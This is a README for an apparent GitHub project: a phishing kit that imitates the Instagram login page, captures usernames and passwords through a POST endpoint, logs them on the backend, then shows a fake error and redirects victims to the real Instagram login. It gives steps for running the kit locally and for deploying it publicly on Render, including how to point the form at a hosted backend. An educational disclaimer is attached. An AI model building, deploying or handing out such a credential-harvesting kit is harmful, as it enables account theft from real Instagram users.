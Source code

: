 # Instagram-Style Phishing Simulation (No DB - MERN)

> ⚠️ For educational and ethical hacking use only. Unauthorized deployment is illegal.

This project is a simple phishing simulation tool built with **React and Express**, styled to look like the **Instagram login page**. It captures fake credentials and logs them to the console — no database needed.

---

## 🔧 Features

- Instagram-style React login form
- Fake login captures credentials
- Logs username and password to backend console
- Redirects to real Instagram login page
- Ready for deployment on **Render.com**

---

## 📁 Project Structure

```
phish-instagram-clone/
├── client/         # React frontend
│   ├── src/
│   │   ├── App.js
│   │   ├── App.css
├── server/         # Express backend
│   ├── index.js
```

---

## 🚀 Run Locally

### 1. Clone the Repository

```bash
git clone https://github.com/yourusername/phish-instagram-clone.git
cd phish-instagram-clone
```

---

### 2. Start Backend

```bash
cd server
npm install
npm start
```

Backend runs on: `http://localhost:5000`

---

### 3. Start Frontend

```bash
cd ../client
npm install
npm start
```

Frontend runs on: `http://localhost:3000`

---

## 🧪 How It Works

1. User enters fake Instagram login.
2. Credentials sent to backend via POST `/api/login`.
3. Backend logs them to the console.
4. User sees a fake error message and is redirected to the real Instagram login page.

---

## 🚀 Deploying to Render

### 📦 Backend (Web Service)

- Root: `/server`
- Start command: `node index.js`
- Build command: `npm install`
- Expose port: `5000`

### 🌐 Frontend (Static Site)

- Root: `/client`
- Build command: `npm install && npm run build`
- Publish directory: `build`

Update `axios.post("http://localhost:5000/api/login", ...)` in `App.js` to:

```js
axios.post("https://your-render-backend-url.onrender.com/api/login", ...)
```

---

## ⚠️ Disclaimer

This tool is for **educational, research, or penetration testing training** only.

- ❌ Unauthorized use is illegal.
- ✅ Use in labs, demos, or with proper consent.

